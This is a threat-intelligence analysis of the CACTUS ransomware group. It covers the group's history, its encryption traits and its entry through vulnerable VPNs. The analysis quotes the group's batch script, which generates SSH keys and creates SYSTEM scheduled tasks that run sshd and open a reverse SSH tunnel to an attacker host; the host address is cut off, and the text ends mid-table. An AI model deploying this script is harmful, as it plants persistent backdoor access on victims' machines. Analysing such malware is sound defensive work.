 ## History 

The CACTUS ransomware is said to have emerged around March 2023. The group became known for exploiting vulnerabilities to gain initial access and maintain a presence within the organization's infrastructure.

There is little known information about the ransomware group, except that it emerged on the mentioned date and, following encryption, a text file named 'cAcTuS.readme.txt' would be created. Additionally, encrypted files were altered to the '.cts1' extension, and data exfiltration and victim extortion were conducted through the use of the service known as Tox.

As mentioned earlier, the ransomware especially exploits vulnerabilities in VPNs, also utilizing obfuscation techniques to conceal its activities, such as employing UPX and utilizing encryption algorithms like OpenSSL, AES OCB, ChaCha20_Poly1305, system reinitializations, and others.

## Ransomware Cactus Attack Chain

**INITIAL ACCESS**
For Initial Access, the ransomware group exploits known vulnerabilities in VPN devices, followed by the creation of an SSH backdoor that facilitates access for the actor and manages to persist within the organization's infrastructure.

In these invasions through vulnerable VPN devices, the actors exploited the use of VPN service accounts and then used the following command to set up an SSH server to maintain persistent access, using scheduled tasks. The scheduled task is named 'Updates Check Task' and runs every 5 minutes, executed as SYSTEM.

|     echo off   %programdata%\sshd\ssh-keygen -f %programdata%\sshd\config\id_rsa -t rsa -N   "" icacls %programdata%\sshd\config\keys\id_rsa /inheritance:r   icacls %programdata%\sshd\config\keys\id_rsa /grant:r   "%username%":"(R)" icacls   %programdata%\sshd\config\id_rsa /inheritance:r icacls   %programdata%\sshd\config\id_rsa /grant:r   "%username%":"(R)" schtasks.exe /create /sc minute /mo 1   /tn "SSH Server" /rl highest /np /tr "%programdata%\sshd\sshd.exe   -f %programdata%\sshd\config\sshd_config" schtasks.exe /create /sc   minute /mo 1 /tn "SSH Key Exchange" /rl highest /np /tr   "%programdata%\sshd\ssh.exe -i %programdata%\sshd\config\keys\id_rsa -N   -R 22682:127.0.0.1:2222 -o StrictHostKeyChecking=no -o ServerAliveInterval=60   -o ServerAliveCountMax=15 root@    |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|




